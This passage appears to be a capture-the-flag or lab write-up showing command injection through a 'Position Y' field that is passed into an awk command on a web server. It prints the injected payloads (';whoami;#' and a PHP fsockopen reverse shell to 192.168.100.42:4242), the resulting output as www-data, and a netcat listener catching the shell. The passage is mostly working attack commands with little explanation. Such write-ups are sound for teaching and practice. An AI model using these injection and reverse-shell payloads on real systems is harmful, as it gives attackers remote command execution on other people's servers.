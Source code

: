 our input is added in the return but what we need to find out is which one of these is which input box so Position Y box is easier to try our injection attack
By submitting TEST 123 789
```
Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}'  
Result: 798.53
```



WE can try to put on Position Y is **789)^2))}';whoami;#**

we could this in return as www-data

```
Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}';whoami;#)^2))}'  
Result: 798.53 www-data
```

Now lets execute a shell 
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php

grab the top one shell and copy it 
```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'[](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#__codelineno-23-2)
```
MODIFY IT FOR THE SHELL
```

789)^2))}';php -r '$sock=fsockopen("192.168.100.42",4242);exec("/bin/sh -i <&3 >&3 2>&3");';#
```
 
 Modify IP AND SETUP A LISTENER
```sh
┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.100.42] from (UNKNOWN) [172.18.0.4] 46846
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

==================================================================

